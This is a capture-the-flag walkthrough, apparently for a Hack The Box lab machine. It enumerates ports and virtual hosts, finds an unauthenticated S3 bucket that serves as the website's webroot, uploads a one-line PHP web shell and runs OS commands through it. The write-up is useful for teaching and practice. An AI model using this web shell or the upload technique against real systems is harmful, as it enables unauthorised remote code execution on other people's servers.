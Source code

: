 # 1. Enumeration

- To start with, we will check for open ports using `nmap`:
```
nmap -sV 10.129.227.248
```

![img.png](img/img.png)

# 2. Website Enumeration

![img_1.png](img/img_1.png)

- Scrolling down the webpage, we come accross the "Contact" section, which has email information. The email given here has the domain 'thetoppers.htb'
- Let's add an entry for `thetoppers.htb` in `/etc/hosts` file with the corresponding IP address to be able to 
access this domain in the browser.

# 3. Subdomain Enumeration

- We will be using `gobuster` for subdomain enumeration:
```
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
```

![img_2.png](img/img_2.png)

- Let's also add an entry for this subdomain in the `/etc/hosts` file.
- After that, we are presented with this page:
![img_3.png](img/img_3.png)

# 4. S3 bucket

- `S3` is a cloud-based object storage service. It allows us to store things in containers called buckets. AWS
  S3 buckets have various use-cases including Backup and Storage, Media Hosting, Software Delivery, Static
  Website etc. The files stored in the Amazon S3 bucket are called S3 objects.
- We can interact with this S3 bucket with the aid of the `awscli` utility:
![img_4.png](img/img_4.png)

- We can list all S3 buckets hosted by the server using the `ls` command:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

![img_5.png](img/img_5.png)

- List objects and common prefixes under the specified bucket:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

![img_6.png](img/img_6.png)

- Seems like this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
  storage.

- `awscli` has got another feature that allow us to copy files to a remote bucket. Thus, we can upload a PHP shell to 
the `S3` bucket and since it is uploaded to the webroot directory, we can visit it, which will, in turn, execute this file
and we will achieve remote code execution.

- `shell.php`:
```
<?php system($_GET["cmd"]); ?>
```

- Now, we can upload this to `thetoppers.htb` S3 bucket:
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
![img_7.png](img/img_7.png)

- Let's try executing OS command using the `cmd` parameter:
```
http://thetoppers.htb/shell.php?cmd=id
```

![img_8.png](img/img_8.png)

- The flag can be found at `/var/www/flag.txt`